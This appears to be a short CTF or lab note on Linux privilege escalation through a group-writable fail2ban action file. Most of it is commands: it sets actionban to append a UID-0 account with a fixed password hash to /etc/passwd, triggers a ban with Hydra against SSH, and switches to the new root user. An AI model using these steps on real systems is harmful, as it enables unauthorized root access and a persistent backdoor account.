 Running `id` shows we are part of fail2ban group
`uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)`


Find the iptables-multiport.conf file:
```bash - target
find / -type f -iname iptables-multiport.conf 2> /dev/null
```

Verify that we have read / write privs:
```bash - kali
ls -lah /etc/fail2ban/action.d/iptables-multiport.conf
```

`-rw-rw-r-- 1 root fail2ban 1.4K Apr 3 11:43 /etc/fail2ban/action.d/iptables-multiport.conf`

```bash - target
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

[[17._passwd file]]

```bash - target
actionban = echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

![[Hydra#Hydra against SSH]]

```bash - kali
su newroot
```

```bash - kali
password
```

